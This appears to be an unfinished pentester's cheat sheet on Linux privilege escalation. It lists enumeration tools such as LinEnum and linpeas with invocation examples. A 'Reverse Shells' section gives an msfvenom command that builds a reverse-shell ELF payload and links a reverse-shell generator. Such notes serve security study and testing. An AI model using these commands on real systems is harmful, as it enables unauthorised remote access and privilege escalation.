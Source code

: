 # Work in Progress

## automated scripts

linux smart enumeration: https://github.com/diego-treitos/linux-smart-enumeration
```
# print everything the script can gather 
./lse.sh -l 2 -i
```

Linenum - https://github.com/rebootuser/LinEnum
```
# export files to a directory and do thorough tests
./linenum.sh -t -e linenum
```

linpeas
linux exploit suggester

linux priv checker - https://github.com/linted/linuxprivchecker

beroot - https://github.com/AlessandroZ/BeRoot

unix -priv-checker - http://pentestmonkey.net/tools/audit/unix-privesc-check




## Reverse Shells 
```
msfvenom -p linux/x86/reverse_shell_tcp lhost= lport= -f elf -o rev_shell.elf
```

Native reverse shells:

reverse shell generator: https://github.com/mthbernardes/rsg 


